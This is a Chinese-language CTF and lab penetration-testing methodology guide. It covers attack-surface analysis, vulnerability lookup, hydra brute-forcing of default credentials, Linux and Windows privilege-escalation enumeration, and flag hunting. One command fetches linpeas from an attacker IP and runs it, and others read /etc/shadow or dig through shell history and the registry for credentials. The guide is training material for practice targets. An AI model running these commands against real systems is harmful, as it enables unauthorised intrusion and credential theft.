

# CTF朝圣路地图 — 从菜鸟到红队的思维框架

## 前言：思维转变 — 从「学教程」到「像攻击者一样思考」

每一个CTF选手都会经历一个关键转折点：不再问「这个漏洞怎么利用」，而是问「这个系统有哪些弱点」。教程教你「怎么做」，但CTF真正考验的是「为什么这样做」和「如果不这样做还能怎么做」。

当你拿到一个陌生目标时，无助感是正常的。你不是缺少知识，而是缺少一套**系统化的攻击思维框架**。这份朝圣路地图的目的，就是把零散的技术点串联成一条可重复的攻击链 — 无论是HTB靶场、CTF比赛，还是真实渗透，这个思维框架都适用。

记住一个原则：**90%的CTF卡关，都是因为侦察不够充分。**


### 第二步：分析攻击面 (Attack Surface Analysis)

拿到侦察数据后，用表格列出每一个攻击入口点。

#### 攻击面清单

| 端口 | 服务 | 版本 | 潜在攻击向量 |
|------|------|------|-------------|
| 22 | SSH | OpenSSH 7.4 | 弱口令/暴力破解/已知漏洞 |
| 80 | HTTP | Apache 2.4.6| Web漏洞/目录遍历/配置泄露|
| 8080 | HTTP | Tomcat 9.0 | 默认凭证/部署WAR/Manger App|
| 445 | SMB | Samba 4.7 | 匿名访问/永恒之蓝/NTLM中继|

#### 版本号 → 漏洞的三步链

```bash
# 1. searchsploit 查本地漏洞库
searchsploit apache 2.4.6
searchsploit --cve <CVE编号>

# 2. CVE编号 → 公开漏洞细节
# 访问 nvd.nist.gov、exploit-db.com、cvedetails.com

# 3. GitHub搜索利用代码
# 搜索: "CVE-XXXX-XXXX poc" 或 "CVE-XXXX-XXXX exploit"
```

#### Web 攻击面细化

对每一个Web服务，逐项检查：
- **每个参数**：GET/POST参数都可能是注入点
- **Cookie**：解码JWT、修改session、查看标志位
- **HTTP头**：X-Forwarded-For（IP欺骗）、User-Agent、Referer
- **API端点**：未在页面上展示的隐藏API
- **文件上传点**：是否存在、检查扩展名过滤
- **返回包特征**：Server头、X-Powered-By、异常的响应码

#### 默认凭证检查

永远不要跳过这一步。很多CTF靶机就靠默认凭证获取初始立足点。

```bash
# 用hydra尝试常见默认凭证
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/default-passwords.txt <TARGET> <SERVICE>

# 手动尝试 (不要小看这一步)
admin:admin
admin:password
guest:guest
root:root
root:toor
```


### 第四步：权限提升 (Privilege Escalation)

拿到初始shell后，提权是第二道大坎。

#### Linux 提权标准流程

```bash
# === 1. 自动化侦察 — linpeas ===
# 把linpeas.sh传到靶机然后运行
wget <YOUR_IP>/linpeas.sh -O /tmp/linpeas.sh && chmod +x /tmp/linpeas.sh && /tmp/linpeas.sh

# === 2. 手动检查 SUID 二进制 ===
find / -perm -4000 -type f 2>/dev/null
# 然后去 GTFOBins (gtfobins.github.io) 查每一个

# === 3. Capabilities ===
getcap -r / 2>/dev/null

# === 4. Sudo 权限 ===
sudo -l

# === 5. Cron 定时任务 ===
cat /etc/crontab
ls -la /etc/cron.*
# 检查每个cron脚本是否可写

# === 6. 内核版本 ===
uname -a
# 用searchsploit或linux-exploit-suggester.sh查内核漏洞

# === 7. 可写路径/敏感文件 ===
find / -writable -type f 2>/dev/null | grep -v /proc
find / -name "*.conf" -o -name "*.config" -o -name "*.ini" 2>/dev/null
```

#### Windows 提权标准流程

```bash
# === 1. 自动化侦察 — winPEAS ===
# 传winPEASx64.exe到靶机运行

# === 2. 服务权限检查 ===
wmic service get name,displayname,pathname,startmode
# 或者: sc qc <service_name>
# 关注: 可写服务路径、未引号包围的服务路径

# === 3. 计划任务 ===
schtasks /query /fo LIST /v

# === 4. 注册表 ===
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall /s
# 查找凭据、自动登录信息

# === 5. AlwaysInstallElevated ===
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

#### 当 linpeas/winPEAS 没发现明显漏洞时

- 用 `ps aux` / `tasklist` 查看运行中进程，找内部服务
- 检查家目录的 `.bash_history`、`.bashrc`、`.zsh_history`
- 看 `/opt`、`/srv`、`/var/backups` 下有没有遗留的配置或备份文件
- 检查 `env` 输出的环境变量
- 别忘了：有时候提权不是技术问题，是**密码复用** — 同一个密码在多个用户间使用


### 第六步：夺旗与清理 (Capture & Cleanup)

#### 旗帜的常见位置

```
Linux:
 /root/root.txt ← 最常见
 /home/*/user.txt ← 普通用户flag
 /root/.ssh/ ← 有时藏在authorized_keys注释里
 /etc/shadow ← flag可能是密码哈希

Windows:
 C:\Users\Administrator\Desktop\root.txt
 C:\Users\<username>\Desktop\user.txt
 C:\Users\<username>\AppData\Local\Temp\
 HKLM\SOFTWARE\ ← 注册表中有时藏flag
```

#### 不要放过这些地方

```bash
# 环境变量
env | grep -i flag

# 隐藏文件 (.开头的文件)
find / -name ".*" -type f 2>/dev/null | xargs grep -l "flag" 2>/dev/null

# 数据库
# MySQL: show databases; use <db>; show tables; select * from <table>;
# SQLite: .dump 导出所有数据

# 浏览器书签/历史 (用户图形界面存在时)
# Firefox: ~/.mozilla/firefox/
# Chrome: ~/.config/google-chrome/

# 邮件
ls /var/mail/
ls /var/spool/mail/
```


## CTF 攻击决策树 (Mermaid 流程图)




## CTF 资源工具箱

### 在线工具

| 工具 | 用途 | 地址 |
|------|------|------|
| CyberChef | 编码/解码/加密瑞士军刀 | gchq.github.io/CyberChef |
| dcode.fr | 密码学工具集 | dcode.fr |
| crackstation.net | 在线哈希破解 | crackstation.net |
| hashkiller.co.uk | 在线哈希破解 | hashkiller.co.uk |
| jwt.io | JWT在线解码/篡改 | jwt.io |
| revshells.com | 反弹Shell生成器 | revshells.com |
| GTFOBins | Linux二进制逃逸大全 | gtfobins.github.io |
| LOLBAS | Windows二进制逃逸大全 | lolbas-project.github.io |
| factordb | 大数因数分解 | factordb.com |

### Wordlists 词表

```bash
# SecLists — 必备词表集
/usr/share/wordlists/seclists/
# 重点:
# Discovery/Web-Content/ → Web目录爆破
# Passwords/ → 各种密码表
# Usernames/ → 常见用户名

# rockyou.txt — 哈希破解首选
/usr/share/wordlists/rockyou.txt
# 如果字典需要解压:
sudo gunzip /usr/share/wordlists/rockyou.txt.gz

# dirbuster — 目录爆破
/usr/share/wordlists/dirbuster/

# 自定义字典 — 根据目标信息生成
# 用cupp或cewl从目标网站提取关键词生成
cewl http://TARGET -w custom_wordlist.txt
```

### Cheat Sheets 速查表

- **PayloadAllTheThings** (github.com/swisskyrepo/PayloadsAllTheThings) — 各种注入payload大全
- **HackTricks** (book.hacktricks.xyz) — 渗透百科，遇到任何问题先查
- **GTFOBins** (gtfobins.github.io) — 每个SUID二进制的利用方法
- **LOLBAS** (lolbas-project.github.io) — Windows下签名二进制利用
- **WADComs** (wadcoms.github.io) — 交互式Windows/AD攻击矩阵

### 社区

| 社区 | 用途 |
|------|------|
| HackTheBox Forum | 靶机讨论(仅限已退役机器) |
| TryHackMe Discord | 学习路径讨论 |
| CTFtime.org | 比赛日历 + 团队招募 |
| /r/CTF | Reddit CTF版 |
| /r/netsec | Reddit 网络安全版 |


> 本指南会持续更新。建议用你自己在实战中的经验和笔记不断丰富它。每一个CTF选手的地图都应该是独一无二的。
